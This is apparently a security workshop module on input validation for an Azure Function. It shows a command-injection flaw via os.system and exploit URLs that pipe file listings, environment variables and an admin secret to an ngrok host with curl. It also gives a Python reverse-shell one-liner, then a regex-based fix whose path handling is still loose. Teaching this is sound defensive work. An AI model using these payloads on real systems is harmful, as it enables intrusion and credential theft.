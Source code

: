 # Input Validation


## Why we're doing this? Injection! 
One of the most common web and serverless attacks is Injection. Let's take a look at our application code and see if it could be vulnerable to injection?   


```python
#Truncated for reference
#Set the name variable from the query string
name = req.params.get('name')
#Use os.system to write the file using the name
os.system('echo "{}" >> /tmp/{}'.format(json_data,name))
```
You can see here that the `name` parameter is passed in as a command line argument using `os.system` this is bad practice and we should ideally use a library for writing to the file system. However this is seen regularly. 

A bad actor could pass a cli command in the `name` string as a query parameter and have that command run on the underlying system. Let's try that. 

## Exploiting the vulnerability 

In order to exploit this vulnerability, we need to pass in our command with the `name` parameter in the query string. Something like this:  

```bash
https://<FUNCTION_APP_NAME>.azurewebsites.net/api/slsSec?name=Sarah ; echo "Hello" ; curl <NGROK_ID>.ngrok.io?data=$(ls /tmp | base64 --wrap=0)
```

This URL will send the output of `ls /tmp` to an `ngrok` (more on this in a minute) endpoint encoded as base64.

We would need to urlencode our command using a site such as [URL Encoder](https://www.urlencoder.org/).

**Set up ncat listener**   

`nc -l 3006`

**Run a local webserver**   

`python -m SimpleHTTPServer 80`  

**Set up ngrok forwarder** 

> ngrok is a tool that enables us to reach our locally running web server over the internet. 

`ngrok http 80`

**Ngrok Inspector**  
Open up a broswer to [http://127.0.0.1:4040/](http://127.0.0.1:4040/)

Let's see what kind of data we can get... 

**Lists out the files in /tmp**
```bash
https://<FUNCTION_APP_NAME>.azurewebsites.net/api/slsSec?name=Sarah%20;%20echo%20%22Hello%22%20;%20curl%20<NGROK_DOMAIN>.ngrok.io?data=$(ls%20/tmp%20|%20base64%20--wrap=0)
```

**cat one of the files in /tmp**
```bash
https://<FUNCTION_APP_NAME>.azurewebsites.net/api/slsSec?name=Sarah%20;%20echo%20%22Hello%22%20;%20curl%20<NGROK_DOMAIN>.ngrok.io?data=$(tail%20/tmp/Sarah%20|%20base64%20--wrap=0)
```

**Lists out the environment variables**
```bash
https://<FUNCTION_APP_NAME>.azurewebsites.net/api/slsSec?name=Sarah%20;%20echo%20%22Hello%22%20;%20curl%20<NGROK_DOMAIN>.ngrok.io?data=$(env%20|%20base64%20--wrap=0)
```

**Gets value of ADMINSECRET**
```bash
https://<FUNCTION_APP_NAME>.azurewebsites.net/api/slsSec?name=Sarah%20;%20echo%20%22Hello%22%20;%20curl%20<NGROK_DOMAIN>.ngrok.io?data=$(echo%20$ADMINSECRET%20|%20base64%20--wrap=0)
```

**Reverse Shell**  
We won't work through this now, but imagine how we could pop open a reverse shell to the underlying function host using a command like the one below. This would make extracting data and enumerating the file system very very easy.

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('0.tcp.ngrok.io',<NGROK_PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'
```

You can hopefully see how dangerous this could be. Not only could function source code be collected, but we could leverage the `MSI_ENDPOINT` and 'MSI_SECRET' environment variables to obtain access tokens to Azure services. More on this in the secrets module.

### Challenge
See if you can extract the function code for this function app from the functions host. 

## Fixing the issue! 
There are three ways to fix this issue. 

1. In our function code
2. API Management Policies
3. Web Application Firewall (WAF)

In this module we're going to focus on fixing our **function code** to make it less vulnerable. Policies in APIM require some more advanced understanding of APIM that we unfortunately, don't have time to go into in this workshop. You can read more [here](https://docs.microsoft.com/en-us/azure/api-management/api-management-policies). 

We'll cover WAF in [module 7 - WAF](waf.md). 

We shouldn't really be adding files to the filesystem using `os.system` we should be using a library for this. Let's remove the following line

```python
os.system('echo "{}" >> /tmp/{}'.format(json_data,name))
```

and replace it with 

```python
f = open("/tmp/"+ name + ".txt", "w")
f.write(json_data)
f.close()
```

We should also validate the format of the data, in it's simplest form, we can use some Regex to make sure the `name` parameter consists of only letters.

Add an import statement to add the regex module at the top of our code

```python
import re
```

Add this code to the top of your python code below the line that begins the `if name:` statement.   

```python
if (re.match('^[_A-z0-9]*((-|\s)*[_A-z0-9])*$', name)):
    #Add logic to continue here
else:
    #throw exception
    return func.HttpResponse(
             "Invalid Name Format, no special characters allowed",
             status_code=400
    )
```

